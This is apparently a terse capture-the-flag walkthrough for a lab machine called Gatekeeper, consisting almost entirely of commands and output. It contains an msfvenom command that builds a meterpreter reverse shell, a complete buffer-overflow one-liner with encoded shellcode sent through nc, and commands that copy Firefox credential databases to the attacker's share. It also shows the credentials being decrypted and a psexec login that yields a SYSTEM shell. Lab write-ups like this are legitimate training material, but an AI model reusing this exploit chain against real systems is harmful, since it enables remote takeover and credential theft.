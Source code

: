 # Gatekeeper 

> VOiD | Tuesday 02 November 2021 10:24:14 PM IST

My IP : 10.8.253.221
Target IP : 10.10.157.93

PORT      STATE SERVICE       REASON
135/tcp   open  msrpc         syn-ack
139/tcp   open  netbios-ssn   syn-ack
3389/tcp  open  ms-wbt-server syn-ack
31337/tcp open  Elite         syn-ack
49152/tcp open  unknown       syn-ack
49153/tcp open  unknown       syn-ack
49154/tcp open  unknown       syn-ack
49155/tcp open  unknown       syn-ack
49161/tcp open  unknown       syn-ack
49165/tcp open  unknown       syn-ack

we get a gatekeeper.exe
```bash
badchars '\x00\x0a'
eip 080414c3
```
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.253.221 LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"

python -c 'print "A"*146 + "\xbf\x16\x04\x08" +"\x90"*16 + "\xda\xda\xd9\x74\x24\xf4\xbf\xf2\x15\xc1\xe4\x5b\x29\xc9\xb1\x5e\x31\x7b\x1a\x03\x7b\x1a\x83\xc3\x04\xe2\x07\xe9\x29\x6b\xe7\x12\xaa\x14\xd6\xc0\x23\x31\x7c\x6e\x61\x8a\xf7\x22\x8a\x61\x55\xd7\x9d\xc2\x13\xf1\x2a\x5e\x8b\xcc\xd3\xae\x0b\x82\x10\xb0\xf7\xd9\x44\x12\xc6\x11\x99\x53\x0f\xe4\xd7\xbc\xdd\xa0\x9c\x11\xf1\xc5\xe1\xa9\xf0\x09\x6e\x91\x8a\x2c\xb1\x66\x26\x2e\xe2\x0c\xfe\x28\x52\x98\xa6\x68\x53\x4d\xd3\xa0\x27\x4d\x92\x03\x37\x26\x10\xef\xc6\xef\x69\x2f\x09\xc0\x84\x03\x8b\x18\xae\xbb\xf9\x52\xcd\x46\xfa\xa0\xac\x9c\x8f\x36\x16\x56\x37\x93\xa7\xbb\xae\x50\xab\x70\xa4\x3f\xaf\x87\x69\x34\xcb\x0c\x8c\x9b\x5a\x56\xab\x3f\x07\x0c\xd2\x66\xed\xe3\xeb\x79\x49\x5b\x4e\xf1\x7b\x8a\xee\xfa\x84\xb3\xb2\x6c\x49\x7e\x4d\x6d\xc5\x09\x3e\x5f\x4a\xa2\xa8\xd3\x03\x6c\x2e\x65\x03\x8f\xe0\xcd\x43\x71\x01\x2e\x4a\xb6\x55\x7e\xe4\x1f\xd6\x15\xf4\xa0\x03\x83\xfe\x36\xa6\x5c\x03\x1b\xde\x5e\xfb\xb5\x43\xd6\x1d\xe5\x2b\xb8\xb1\x46\x9c\x78\x61\x2f\xf6\x76\x5e\x4f\xf9\x5c\xf7\xfa\x16\x09\xa0\x92\x8f\x10\x3a\x02\x4f\x8f\x47\x04\xdb\x3a\xb8\xcb\x2c\x4e\xaa\x3c\x4b\xb0\x32\xbd\xfe\xb0\x58\xb9\xa8\xe7\xf4\xc3\x8d\xc0\x5b\x3b\xf8\x52\x9b\xc3\x7d\x63\xd0\xf2\xeb\xcb\x8e\xfa\xfb\xcb\x4e\xad\x91\xcb\x26\x09\xc2\x9f\x53\x56\xdf\xb3\xc8\xc3\xe0\xe5\xbd\x44\x89\x0b\x98\xa3\x16\xf3\xcf\xb7\x51\x0b\x92\x9f\xf9\x64\x6c\xa0\xf9\x74\x06\x20\xaa\x1c\xdd\x0f\x45\xed\x1e\x9a\x0e\x65\x95\x4b\xfc\x14\xaa\x41\xa0\x88\xab\x66\x79\x3a\xd6\x07\x7e\xbb\x27\x0e\x1b\xbb\x28\x2e\x1d\x87\xff\x17\x6b\xc6\x3c\x2c\x74\xd5\xe8\x59\x1d\x40\x79\xe0\x40\x73\x54\x27\x7d\xf0\x5c\xd8\x7a\xe8\x15\xdd\xc7\xae\xc6\xaf\x58\x5b\xe8\x1c\x58\x4e"' | nc 10.10.157.93 31337

copy cert9.db \\10.8.253.221\kali
copy key4.db \\10.8.253.221\kali
copy logins.json \\10.8.253.221\kali


./firefox_decrypt.py /home/void/tryhackme/Gatekeeper/firefox_files           
2022-01-23 17:03:50,931 - WARNING - profile.ini not found in /home/void/tryhackme/Gatekeeper/firefox_files
2022-01-23 17:03:50,932 - WARNING - Continuing and assuming '/home/void/tryhackme/Gatekeeper/firefox_files' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'


psexec.py mayor:8CL7O1N78MdrCIsV@10.10.157.93                                1 ⨯
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.157.93.....
[*] Found writable share ADMIN$
[*] Uploading file WdhblRGp.exe
[*] Opening SVCManager on 10.10.157.93.....
[*] Creating service yTQz on 10.10.157.93.....
[*] Starting service yTQz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> 


C:\Users\mayor\Desktop> type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}

```